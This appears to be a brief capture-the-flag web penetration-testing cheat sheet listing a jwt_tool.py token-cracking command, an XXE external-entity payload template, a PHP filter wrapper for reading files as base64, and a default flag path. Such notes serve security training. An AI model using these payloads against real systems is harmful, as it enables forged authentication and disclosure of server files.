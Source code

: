 # web-pen-testing
web-pen-testing
# python3 jwt_tool.py -t URL -rc TOKEN -C -d WORDLIST

# 
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE [name] [
<!ELEMENT [name] ANY>
<!ENTITY [entityName] SYSTEM "command">
]>
<name> &entityName; </name>
# template of php filters: 
php://filter/convert.base64-encode/resource= RES
# default path to web folder
/var/www/html/flag
